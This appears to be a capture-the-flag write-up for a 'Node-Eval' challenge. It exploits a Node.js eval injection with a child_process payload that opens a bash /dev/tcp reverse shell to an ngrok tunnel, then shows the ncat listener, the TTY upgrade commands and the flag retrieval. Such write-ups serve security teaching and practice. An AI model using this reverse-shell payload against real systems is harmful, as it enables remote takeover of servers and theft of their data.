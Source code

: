 ```yaml
---
layout: default
title: Node-Eval
---
```


I first checked and saw i can execute `js`, because it uses `eval`.

Then, I found this [simple nodejs rce exploit](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6), which gave me this quick reverse shell:
```js
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

I set a listening port in powershell and also `ngrok` tunnel:
```ps
ncat -nvlp 777
```
And ngrok:
```powershell
ngrok tcp 777
```
Then, we got this:
```
tcp://2.tcp.us-cal-1.ngrok.io:11453 -> localhost:777
```
So the payload will be:
```
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/2.tcp.us-cal-1.ngrok.io/11453+0>%261"')
```

Now, just send it and we get connection on the listening port
![send payload](./images/Node-Eval_send_payload.png)

For my convinece, I'm running this set of commands from `hack tools` extension for chrome:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
*Ctrl + Z*
```bash
stty raw -echo; fg
stty rows 38 columns 116
```

And know our shell is ready!

we simply run:
```bash
ls -la
cd S3cr3tEv0d3f0ld3r
ls
cat Ev0d3fl4g
```

![FINAL](./images/Node-Eval_FINAL.png)

**Flag:** **_`D0n0tTru5tEv0d3B4nK!`_**
